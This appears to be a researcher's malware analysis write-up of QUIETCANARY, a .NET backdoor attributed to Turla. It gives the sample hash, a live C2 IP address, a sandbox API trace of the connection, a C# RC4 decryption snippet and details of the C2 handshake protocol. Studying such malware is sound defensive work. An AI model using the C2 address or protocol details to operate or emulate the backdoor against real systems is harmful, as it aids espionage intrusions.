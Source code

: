SHA256 : 3f94b20cb7f4ff55207660649ebbb02679c991fe03efbcb0bd3840fc7f0bd527  
sample source : https://bazaar.abuse.ch/sample/3f94b20cb7f4ff55207660649ebbb02679c991fe03efbcb0bd3840fc7f0bd527/  
VT : https://www.virustotal.com/gui/file/3f94b20cb7f4ff55207660649ebbb02679c991fe03efbcb0bd3840fc7f0bd527  

Report: https://cloud.google.com/blog/topics/threat-intelligence/turla-galaxy-opportunity?hl=en  

C2 :  
https://210.48.231.182/  

Analyzed sample is a 32bit .NET PE attributed to TURLA by Mandiant and named QUIETCANARY / Tunnus.  

Results are shared in two files :  

    logs.txt which contains a full execution trace of the malware until a successful C2 connection and order execution  
    logs_no_c2.txt which contains a full execution trace of the malware without successful C2 connection  


---  

**Commentary**  

As a reminder, the sandbox that I'm developping doesn't provide any proper interface to monitor managed code (yet).  
Supervision of managed code is done indirectly by monitoring activity from native DLL loaded by the monitored process.  
As a consequence, logs provided are 'noisy', the same kind of noise you would get by monitoring syscall instead of Win32 API for instance.  
 
---  

This sample is so minimalistic that dynamic analysis alone is basically only usefull to provide the C2 :  

```html
[...]

[CNT] [49]
[PTP] [0xba8] [0xbac] [c:\users\user\desktop\quiet_canary\canary.exe]
[INF] [ Called from Native Image DLL ]
[API] <WSAConnect> in [WS2_32.dll] 
[PAR] SOCKET   s     : 0x3d8
[PAR] sockaddr *name : 0x0000009B393446A8
[FLD]          -> sin_family   : 2 (IPv4)
[FLD]          -> sin_port     : 47873 (Little endian : 443)
[FLD]          -> sin_addr     : 210.48.231.182
[RET] 0x7ff817b03542 in [System.ni.dll]

[ * ] [pid 0xba8][tid 0xbac] c:\users\user\desktop\quiet_canary\canary.exe
[EVT] [Max Sleep]
[MSG] Delay Execution reduced from 300000 ms to 15000 ms 
```

Results of dynamic analysis without a working C2 is provided in the attached 'logs_no_c2.txt' file.  

---  

Going further, I decided to use some statical analysis and develop a bare minimum C2 to trigger some additional behavior from the sample :  

![Alt text](screenshots/init.jpg?raw=true "first beaconing")

Statical analysis is very straightforward as this sample isn't obfuscated in any way.

Now, the first beaconing to the C2 is a HTTP GET request with a hardcoded useragent.  
The initial RC4 Key, that the C2 will have to use in reply to that first beaconing, is also visible in that screenshot.   

```cs
 using (StreamReader streamReader = new StreamReader(response.GetResponseStream()))
            empty = Encoding.UTF8.GetString(RC4Encryption.EncryptDecrypt(Convert.FromBase64String(streamReader.ReadToEnd()), this.initialKey));
```




QUIETCANARY is expecting the following answer from the C2 :  

![Alt text](screenshots/new_rc4_key.jpg?raw=true "New Rc4 Key")

In other words, the keyword "use" followed by a 10 letters string that is going to be used as a new RC4 key to encrypt communications.  

